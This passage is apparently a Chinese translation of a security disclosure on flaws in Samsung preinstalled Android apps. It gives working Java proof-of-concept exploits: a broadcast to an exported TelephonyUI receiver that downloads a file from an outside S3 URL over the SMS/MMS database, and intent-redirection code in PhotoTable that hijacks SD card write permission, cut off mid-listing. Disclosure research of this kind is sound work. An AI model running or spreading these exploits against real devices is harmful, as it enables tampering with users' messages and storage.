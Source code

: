 TelephonyUI 中的漏洞
----------------


接收器`com.samsung.android.app.telephonyui.carrierui.photoring.model.PhotoringReceiver`被导出。它将文件从 中指定的 URL 保存到 中指定`photoring_uri`的路径`down_file`。这是由过度安全的 Android 扫描仪检测到的：


[![黑客可以利用三星预装的应用程序来监视用户](https://img.vjob.top/imgs/vjob_6-3.png)](https://www.ddosi.org/wp-content/uploads/2021/06/6-3.png)



唯一的要求是服务器响应的内容类型应该是`image/*`or `video/*`。因此，我们使用文件名`test.mp4`，Amazon S3 自动指定`video/mp4`响应中的内容类型。


概念证明：



```
File dbPath = new File(getPackageManager().getApplicationInfo("com.android.providers.telephony", 0).dataDir, "databases/mmssms.db");

Intent i = new Intent("com.samsung.android.app.telephonyui.action.DOWNLOAD_PHOTORING");
i.setClassName("com.samsung.android.app.telephonyui", "com.samsung.android.app.telephonyui.carrierui.photoring.model.PhotoringReceiver");
i.putExtra("photoring_uri", "https://redacted.s3.amazonaws.com/test.mp4");
i.putExtra("down_file", dbPath.getAbsolutePath());
sendBroadcast(i);
```

结果，带有 SMS/MMS 消息的文件被攻击者控制的内容覆盖。


PhotoTable 中的漏洞
---------------


在 PhotoTable 中，我们发现了[Intent redirection](https://blog.oversecured.com/Android-Access-to-app-protected-components/)，它允许对内容提供者的访问被拦截：


[![黑客可以利用三星预装的应用程序来监视用户](https://img.vjob.top/imgs/vjob_7-3.png)](https://www.ddosi.org/wp-content/uploads/2021/06/7-3.png)
我们利用该漏洞劫持了访问 SD 卡的权限。这是概念证明：



```
protected void onCreate(Bundle savedInstanceState) {
   super.onCreate(savedInstanceState);
   handle(getIntent());
}

protected void onNewIntent(Intent intent) {
   super.onNewIntent(intent);
   handle(intent);
}

private void handle(Intent intent) {
   if("evil".equals(intent.getAction())) {
       String uri = MediaStore.Images.Media.insertImage(getContentResolver(),
               Bitmap.createBitmap(1, 1, Bitmap.Config.ARGB_8888),
               "Title_1337",
               "Description_1337");
       Log.d("evil", "Result: " + uri);
   }
   else {
       Intent next = new Intent("evil", MediaStore.Images.Media.EXTERNAL_CONTENT_URI);
       next.setFlags(Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
       next.setClass(this, getClass());

       Intent i = new Intent();
```